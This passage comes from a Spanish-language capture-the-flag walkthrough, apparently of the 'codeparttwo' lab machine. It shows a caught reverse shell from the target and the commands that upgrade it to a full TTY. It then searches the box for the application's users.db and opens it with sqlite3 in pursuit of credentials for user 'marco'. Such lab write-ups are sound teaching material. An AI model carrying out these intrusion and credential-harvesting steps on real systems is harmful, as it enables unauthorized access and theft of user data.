 Si volvemos a donde tenemos la escucha:

```
listening on [any] 7755 ...
connect to [10.10.14.85] from (UNKNOWN) [10.10.11.82] 39374
bash: cannot set terminal process group (876): Inappropriate ioctl for device
bash: no job control in this shell
app@codeparttwo:~/app$ whoami
whoami
app
```

Veremos que ha funcionado, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user marco

Si recordamos anteriormente en el codigo de `app.py` vimos esta linea:

```python
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///users.db'
```

Por lo que vamos a realizar una busqueda de `users.db` a ver que vemos:

```shell
find / -name "users.db" 2>/dev/null
```

Info:

```
/home/app/app/instance/users.db
```

Vamos a intentar leerlo con `sqlite3` de esta forma:

```shell
sqlite3 /home/app/app/instance/users.db
```
